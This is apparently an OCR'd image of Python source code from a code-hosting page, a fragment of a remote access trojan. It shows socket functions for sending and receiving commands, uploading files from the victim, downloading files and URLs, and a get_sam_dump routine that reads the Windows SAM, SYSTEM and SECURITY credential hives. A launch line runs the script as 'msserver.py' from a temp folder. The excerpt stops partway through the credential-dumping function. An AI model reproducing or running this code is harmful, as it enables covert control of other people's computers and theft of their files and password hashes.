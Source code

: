 ``` command = "python.exe ""C:\Users\YourUsername\AppData\Local\Temp\msserver.py"""```


def reliable_send(data):
    jsondata = json.dumps(data)
    s.send(jsondata.encode())


def reliable_recv():
    data = ""
    while True:
        try:
            data = data + s.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue


def download_file(file_name):
    f = open(file_name, "wb")
    s.settimeout(2)
    chunk = s.recv(1024)
    while chunk:
        f.write(chunk)
        try:
            chunk = s.recv(1024)
        except socket.timeout as e:
            break
    s.settimeout(None)
    f.close()


def upload_file(file_name):
    f = open(file_name, "rb")
    s.send(f.read())
    f.close()


def download_url(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)


def get_sam_dump():
    if not is_admin():
        return "You must run this function as an Administrator."

    SAM = r"C:\\Windows\\System32\\config\\SAM"
    SYSTEM = r"C:\\Windows\\System32\\config\\SYSTEM"
    SECURITY = r"C:\\Windows\\System32\\config\\SECURITY"

    try:
        sam_file = open(SAM, "rb")
        system_file = open(SYSTEM, "rb")
        security_file = open(SECURITY, "rb")

        sam_data = sam_file.read()
        system_data = system_file.read()
        security_data = security_file.read()

        sam_file.close()
        system_file.close()
```
